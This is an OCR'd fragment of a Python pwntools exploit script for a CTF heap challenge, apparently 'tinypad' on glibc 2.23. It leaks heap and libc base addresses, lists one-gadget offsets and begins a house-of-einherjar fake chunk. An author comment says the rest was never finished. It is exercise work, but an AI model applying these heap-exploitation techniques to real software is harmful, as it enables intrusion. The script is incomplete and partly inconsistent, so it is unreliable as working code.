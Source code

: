 ```python
    link.recvuntil(b'(CMD)>>> ')
    link.sendline(b'e')
    link.recvuntil(b'(INDEX)>>> ')
    link.sendline(str(idx))
    link.recvuntil(b'(CONTENT)>>> ')
    link.sendline(content)
    link.recvuntil(b'Is it OK?\n')
    link.sendline(b'Y')

def delete(idx):
    link.recvuntil(b'(CMD)>>> ')
    link.sendline(b'd')
    link.recvuntil(b'(INDEX)>>> ')
    link.sendline(str(idx))

ogg=[0x4526a,0xf02a4,0xf1147]  

link.recvuntil(
    '  ============================================================================\n\n'
)
gdb.attach(link,'set solib-search-path ~/FocusingCTF/glibc/2.23-0ubuntu3_amd64/')
pause()

# 1. leak heap base
add(0x70,b'a' * 8)  # idx 0
add(0x70,b'b' * 8)  # idx 1
add(0x100,b'c' * 8)  # idx 2

delete(2)  # delete idx 1
delete(1)  # delete idx 0, idx 0 point to idx 1
link.recvuntil(b' # CONTENT: ')
data = link.recvuntil(b'\n', drop=True)  # get pointer point to idx1
heap_base = u64(data.ljust(8,b'\x00')) - 0x80
log.success('get heap base: ' + hex(heap_base))

# 2. leak libc base
# this will trigger malloc_consolidate
# first idx0 will go to unsorted bin
# second idx1 will merge with idx0(unlink), and point to idx0
# third idx1 will merge into top chunk
# but cause unlink feture, the idx0's fd and bk won't change
# so idx0 will leak the unsorted bin addr
delete(3)
link.recvuntil(' # CONTENT: ')
data = link.recvuntil('\n', drop=True)
unsorted_offset_arena = 8 + 10 * 8
main_arena = u64(data.ljust(8,b'\x00')) - unsorted_offset_arena 
libc_base = main_arena - main_arena_offset
log.success('main_arena addr: ' + hex(main_arena))
log.success('libc_base addr: ' + hex(libc_base))

# 从这里开始，后面的就因为一直各种报错没做出来...

# 3. house of einherjar
add(0x18,b'a' * 0x18)  # idx 0
# we would like trigger house of einherjar at idx 1
add(0x100,b'b' * 0xf8 +b'\x11')  # idx 1
add(0x100,b'c' * 0xf8)  # idx 2
add(0x100,b'd' * 0xf8)  #idx 3

# create a fake chunk in tinypad's 0x100 buffer, offset 0x20
tinypad_addr = 0x602040
fakechunk_addr = tinypad_addr + 0x20
```